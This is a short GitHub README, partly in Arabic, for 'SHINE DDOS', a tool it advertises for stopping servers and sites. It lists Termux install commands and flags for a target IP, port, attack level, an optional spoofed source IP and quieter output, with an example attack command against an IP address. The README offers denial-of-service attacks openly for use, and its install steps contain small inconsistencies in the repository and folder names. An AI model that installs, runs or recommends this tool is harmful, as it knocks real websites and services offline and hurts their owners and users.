 #  SHINE DDOS

DDOS Strong Tool To Stop Servers And Sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/T3AmSyNc/kashira.git</code>
- 3 . <code> cd  SHINE-DDOS </code> 
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python shineddos.py -h  </code>




### Command information:
    الاستخدام :
$ <code>python  shineddos.py [-i] [-p] [-l]    </code>     

│         -h : للمساعده                             
│         -i : اي بي السيرفر                            
│         -p : البورت المراد استهدافه                          
│         -l : عدد مستويات الهجوم                
│         -f : ال ايبي الزائف اختياري                              
│         -d : اخفاء وتقليل الرسائل المنبثقه                         
 مثال :                                        
<code> python  shineddos.py -i 12.345.678.90 -p 80 -l  3 </code>


